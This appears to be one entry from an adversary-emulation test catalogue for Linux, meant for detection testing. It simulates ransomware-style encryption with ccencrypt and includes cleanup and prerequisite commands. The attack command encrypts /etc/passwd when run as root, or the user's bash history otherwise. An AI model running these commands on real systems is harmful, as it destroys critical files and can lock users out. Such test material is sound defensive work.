 **Supported Platforms:** Linux


**auto_generated_guid:** 08cbf59f-85da-4369-a5f4-049cffd7709f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cped_file_path | path where you want your copied file to be | path | /tmp/passwd|
| root_input_file_path | path to the file that you want to be encrypted if you are root user | path | /etc/passwd|
| user_input_file_path | path to file that you want to be encrypted if you are normal user | path | ~/.bash_history|
| impact_command | command to show impact of encryption | string | sudo su|


#### Attack Commands: Run with `bash`! 


```bash
if [[ $USER == "root" ]]; then $which_ccencrypt #{root_input_file_path}; file #{root_input_file_path}.cpt; #{impact_command}; else $which_ccencrypt #{user_input_file_path}; file #{user_input_file_path}.cpt; #{impact_command}; fi
```

#### Cleanup Commands:
```bash
if [[ $USER == "root" ]]; then mv #{cped_file_path} #{root_input_file_path}; else cp #{cped_file_path} #{user_input_file_path}; fi
```



#### Dependencies:  Run with `bash`!
##### Description: Finds where ccencrypt and ccdecrypt is located and copies input file
##### Check Prereq Commands:
```bash
which_ccencrypt=`which ccencrypt`
which_ccdecrypt=`which ccdecrypt`
if [[ $USER == "root" ]]; then cp #{root_input_file_path} #{cped_file_path}; else cp #{user_input_file_path} #{cped_file_path}; fi
```
##### Get Prereq Commands:
```bash
(which yum && yum -y install epel-release ccrypt)||(which apt-get && DEBIAN_FRONTEND=noninteractive apt-get install -y ccrypt)
```




<br/>
<br/>

